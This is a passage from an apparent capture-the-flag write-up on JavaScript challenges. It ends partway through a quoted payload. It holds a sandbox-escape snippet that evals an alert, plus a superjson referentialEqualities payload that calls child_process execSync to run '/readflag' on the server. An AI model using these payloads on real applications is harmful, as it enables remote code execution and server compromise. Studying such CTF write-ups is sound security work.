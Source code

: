 The code will be:

``` js
const write = (s) => alert(s);
const read = (s) => prompt(s);
if(1){
const $test$=$win$<!--$asd$;
["eval"];
($test$)("alert(1337)");
};
```

## JaaSon(6 solves)

As a bonus, this is a misc JS problem. You can give a json string, which will be thrown into [superjson](https://github.com/blitz-js/superjson).

Although the version used has a prototype pollution vulnerability, it has already locked the prototype with `Object.freeze(Object.prototype)`, so there is no prototype pollution that can be used.

I haven't had time to study this problem yet, but it is related to the internal operation mechanism of superjson. You can use `referentialEqualities` to specify some values, for example:

``` js
{
  "json": {
    "brands": [
      { "name": "Sonar" }
    ],
    "products": [
      { "name": "SonarQube",  "brand": null }
    ]
  },
  "meta": {
    "referentialEqualities": {
      "brands.0": ["products.0.brand"]
    }
  }
}
```

It will execute `products[0].brand = brands[0];`, which seems to be intended to solve the reference problem when deep cloning.

For more details, please refer to: [Remote Code Execution via Prototype Pollution in Blitz.js](https://blog.sonarsource.com/blitzjs-prototype-pollution/), which explains it more comprehensively.

I haven't studied the other details, but it seems that some things in the object are replaced through this feature.

Below is the payload posted by szymex73 in DC:

```js
{
   "json":[
      [
         null,
         [
            {
               "value":"console.log(global.process.mainModule.constructor._load('child_process').execSync('/readflag').toString())"
            }
         ]
      ]
   ],
   "meta":{
      "values":{
         "2":[
```